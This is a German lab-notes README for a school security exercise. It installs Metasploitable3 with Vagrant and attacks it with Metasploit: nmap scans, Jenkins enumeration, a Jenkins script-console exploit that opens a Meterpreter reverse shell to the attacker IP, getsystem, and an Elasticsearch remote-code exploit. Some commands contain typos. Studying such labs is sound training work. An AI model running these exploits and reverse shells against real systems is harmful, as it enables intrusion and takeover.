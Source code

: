 
## 1.) Video zur HTL vom ORF

## 2.) Split
Videos in kleine Teile zerlegen, um Upload sicherer zu machen

---

## 3.) Vagrant und metasploitable3

Vagrant -> Aus dem Internet instalieren
metasploitable3 -> Von github pullen

__Anleitung:__
https://liberty-shell.com/sec/2018/07/08/install-ms3/


_Vagrant Download:_
https://www.vagrantup.com/downloads.html


_Metasplotable 3:_
```git clone https://github.com/rapid7/metasploitable3.git```

_Vagrant Installation_
```vagrant up ```


Attacker - 10.0.2.15

Defender - 172.28.128.3

### Commands:

```msfdb init```
```nmap -sV -sC vuln -oN metaspl3linux```

```msfconsole```
```db_nmap <defender-ip>```
```db_nmap <defender_ip> -p 8585,8484```
```use auxiliary/scanner/http/http_version/```

#### Options
Damit exploit funktionieren kann, müssen die options auf den Defender gesetzt werden

_options_
```setg rhosts <defender-ip>```
-- Globalen Port setzen
```setg rhost <defender-ip>```
```setg rport 9200```
-- exploit laufen lassen
```run```
```set rport 8484```
```run```
```set rport 8585```
```run```

---
metasploitable window öffnen
```search jenkins```
```set targeturi /```
```use auxiliary/scanner/http/jenkins_enum```
```setg rhosts <defender-ip>```
```set rport 8484```
```run```

-- Alle services auflisten
```services```

```search jenkins```
```grep exploit search jenkins```

```use exploit/multi/http/jenkins_script_console```

```options```
```set rport 8484```
```set targeturi /```

```set payload windows/meterpreter/reverse_tcp```
```set lhost <attacker-ip>```
```set hport 5555```
```set rport 8484```


```exploit```

// Windows Terminal
```getuid```
```getsystem```
Falls man zu wenig Rechte am Ziel hat
```get root```

```background```
```search elasticsearch```
```use exploit/multi/elasticsearch/script_mvel_rce```
```set lport 9999```
```exploit```
